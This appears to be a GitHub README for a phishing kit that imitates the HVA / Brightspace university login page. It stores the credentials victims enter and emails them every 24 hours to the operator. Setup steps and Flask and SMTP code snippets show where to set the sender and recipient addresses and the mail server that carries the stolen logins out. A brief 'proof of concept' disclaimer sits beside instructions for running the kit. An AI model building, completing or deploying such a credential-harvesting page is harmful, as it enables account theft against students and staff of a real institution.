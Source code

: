 # HVA-Brightspace-login-phishing-site
A HVA / Brightspace login fishing page that stores the harvested credentials and sends a mail every 24 hours with the credentials to your email


# HVA / Brightspace Login phishing page

This phishing page is a proof of concept and should not be used for any illegal activity!

![image](https://user-images.githubusercontent.com/99695922/207714240-ba838eb2-645c-4b43-85fa-1a69ddc4bb4e.png)


The phishing page works on desktop and mobile. Every 24 hours it will send a email with the harvested credentials to  a email of your liking.

This was made with [Tailwind](https://tailwindcss.com/) for the front-end and [Flask](https://flask.palletsprojects.com/en/2.2.x/) for the back-end.


## Installation

Clone this repository.

Then use the package manager [pip](https://pip.pypa.io/en/stable/) to install packages.

```bash
pip install -r requirements.txt
```

## Setup
Open app.py

change YOUR_SECRET_KEY to a secret key of your liking.

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'YOUR_SECRET_KEY'
```
Change FROM_EMAIL to the email you are going to send then mail from.
Change TO_EMAIL to the email you are going to send the email to.

```python
    email = EmailMessage()
    email['Subject'] = f'information {datetime.datetime.now()}'
    email['From'] = 'FROM_EMAIL'
    email['To'] = 'TO_EMAIL'
```

Change FROM_EMAIL to the email you are going to send then mail from.

Change FROM_EMAIL_PASSWORD to the email password you are going to send the email from. Make sure the password you provided is compatible with the [SMTP servers](https://support.leapwork.com/s/article/HowcanIgetmySMTPserverPortusernamepassword633070924e681) from your email provider!

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
        s.starttls()
        s.login('FROM_EMAIL', 'FROM_EMAIL_PASSWORD')
        s.send_message(email)
```

Change smtp.office365.com to the SMTP server of your provider, if your email provider is Office365 then you can skip this stap.
Change 587 to the port of the SMTP server the email provider uses.
Big ones: [Microsoft](https://support.microsoft.com/nl-nl/office/pop-imap-en-smtp-instellingen-8361e398-8af4-4e97-b147-6c6c4ac95353) , [Gmail](https://support.google.com/a/answer/176600?hl) and [Yahoo](https://help.yahoo.com/kb/SLN4724.html?guccounter=1&guce_referrer=aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS8&guce_referrer_sig=AQAAADrjXz1-m11zrZhIx972CRNXarnhPdnhwhb85biWlHoDK_LTW9LTFNnj4zCxcvZzG0NTwWgTJOGD67JVD1jcXtVi1udPhmZia8U5Aqud5CVQxVaFRz2ZwbLbR8l5fMSoYJSXFV4NBSnk8z2pubhMMWBtSs1mXrzKIJAjjePa9_FL).

Ones everthing is done close and save app.py
then click one the LAUNCH.bat and see for your self!


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
